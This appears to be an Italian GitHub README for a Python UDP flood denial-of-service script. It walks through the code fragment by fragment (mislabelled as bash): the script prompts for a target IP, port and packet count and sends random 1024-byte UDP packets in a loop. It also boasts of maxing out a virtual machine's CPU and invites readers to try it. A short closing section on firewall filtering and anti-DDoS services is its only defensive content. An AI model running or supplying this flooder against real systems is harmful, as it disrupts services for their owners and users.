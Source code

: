 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice 📘
1. [Codice](#codice)
2. [Prestazioni](#prestazioni)
3. [Prevenzioni](#prevenzioni)

## **Codice👇🏼**
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni💥**
<p>Questo screenshot ⬇️ mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale🙃 </p> 

[Immagine](https://github.com/OctavianIT/Octavian_Ceresau_UdpFloodpy/blob/main/Octavian_Ceresau_UdpFlood/UdpFlood/Codice/prest.png)
<p>Provare per credere😅</p>

## **Prevenzioni🛡️**
#### **Filtraggio traffico UDP**
Configurare il firewall per limitare il traffico UDP su porte non necessarie ed impostare un limitatore di traffico per limitare
la quantità di pacchetti UDP in entrata

#### Protezione Anti-DDoS
Usare servizi esterni di mitigazione come: Cloudflare, AWS Shield o Google Cloud Armor
